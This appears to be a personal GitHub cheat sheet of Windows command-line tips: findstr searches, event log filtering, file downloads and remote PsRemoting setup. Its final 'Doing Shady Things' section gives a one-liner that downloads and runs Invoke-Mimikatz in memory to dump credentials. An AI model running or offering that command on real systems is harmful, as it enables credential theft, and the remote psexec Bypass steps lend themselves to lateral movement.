 # Command Line Kung-Fu
Some things I've picked up over the years.
## Parsing Stuff
Literal string match recursively from the root of the C: drive:
```
findstr /pinsc:"somestring" C:\*.txt
```
RegEx string match recursively in all text and xml files:
```
findstr /pinsr ^some.tring *.txt *.xml
```
Filtering Saved Windows Event Log Files With PowerShell
```
Get-WinEvent -Path "\\server\share\name-of-log.evt" -Oldest -FilterXPath "*[EventData[Data[@Name='TargetUserName'] = 'user.name']] or *[EventData[Data[@Name='Workstation'] = 'host-name']]"
```
And If You Wanna' Get Fancy
```
Get-WinEvent -Path "\\server\share\name-of-log.evt" -Oldest -FilterXPath "*[EventData[Data[@Name='TargetUserName'] = 'user.name']] or *[EventData[Data[@Name='Workstation'] = 'host-name']]" | Select-Object -Property TimeCreated,Id,ProviderName,LogName,TaskDisplayName,Message,ContainerLog | ConvertTo-Html -Property * -As Table -Title 'Something' -PreContent '<H1>UserName: user.name</H1><H2>Workstation: host-name</H2><H2>Date: MM/DD/YYYY</H2>' | Out-File -FilePath C:\Path\To\File.html
```
## Downloading Stuff
Like wget for older versions of PowerShell
```
(New-Object System.Net.WebClient).DownloadFile("https://www.contoso.com/file","C:\path\file")
```
Or wget for newer PowerShell
```
Invoke-WebRequest -Uri "http://www.contoso.com" -OutFile "C:\path\file"
```
## Doing Stuff Remotely
Enabling PsRemoting Remotely :-)
```
$NaughtyComputer = Read-Host "Please Enter The ComputerName:"
psexec.exe -accepteula -s -h -e -d \\some-hostname powershell.exe "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
psexec.exe -accepteula -s -h -e -d \\some-hostname powershell.exe "Enable-PSRemoting -Force"
Enter-PSSession -ComputerName $NaughtyComputer
```
## Doing Things Iteratively
Getting  all the .msp files out of your windows Update .cab archives
```
Get-ChildItem -Path C:\Windows\SoftwareDistribution\Download\*.cab -Recurse | Select-Object -ExpandProperty FullName | ForEach-Object {expand.exe $_ -F:* C:\Updates\}
```
## Doing Shady Things
Dumping Some Creds
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds | Out-File "$($Env:TEMP)\output.txt"
```